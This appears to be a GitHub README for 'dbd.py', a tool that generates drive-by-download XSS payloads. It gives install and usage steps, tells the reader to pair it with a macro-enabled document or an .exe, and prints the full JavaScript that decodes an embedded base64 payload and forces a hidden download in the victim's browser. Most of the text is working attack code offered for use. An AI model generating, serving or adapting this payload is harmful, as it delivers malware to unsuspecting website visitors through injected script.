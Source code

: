 # dbd.py (drive-by-download)

Generate a post exploit script to download an arbitrary file using HTML5's Blob object (https://developer.mozilla.org/en-US/docs/Web/API/Blob). Say goodbye to ```alert(1)```.

# install

```shell
$ git clone https://github.com/demetrius-ford/dbd.git
$ cd dbd/ && pip3 install -r requirements.txt
```

# usage

```bash
Usage: dbd.py [OPTIONS]

  Generate a drive-by-download XSS payload.

Options:
  --version
  --extension [.doc|.pdf|.exe]
  --payload FILE
  --help                          Show this message and exit.
```

Create a macro-enabled document, then run:

```bash
$ python3 dbd.py --extension=".doc" --payload="my_macro.doc"
```

Serve the script with tooling of your choice :smiling_imp:

```javascript
class MimeFactory {
  constructor(type) {
    const mimes = {
      '.doc': 'application/msword'
      , '.pdf': 'application/pdf'
      , '.exe': 'application/octet-stream'
    , }

    if (!(type in mimes)) {
      return;
    }

    this.type = mimes[type];
  }
}

((file, payload) => {
  const empty = ({
    length
  }) => length === 0;

  if (empty(file) || empty(payload)) return;

  const decoded = window.atob(payload);

  const mime = new MimeFactory(file);
  const size = payload.length;
  const link = document.createElement('a');

  const bin = new Uint8Array(size);
  for (let i = 0; i < size; i++) {
    bin[i] = decoded.charCodeAt(i);
  }

  const blob = new Blob([bin.buffer]
    , {
      type: mime.type
    });

  const url = window.URL.createObjectURL(blob);

  link.style = 'display:none;';
  link.href = url;
  link.download = file;

  document.body.appendChild(link);
  link.click();

  window.URL.revokeObjectURL(url);
  document.body.removeChild(link);

})('657hi94.doc', '...');
```
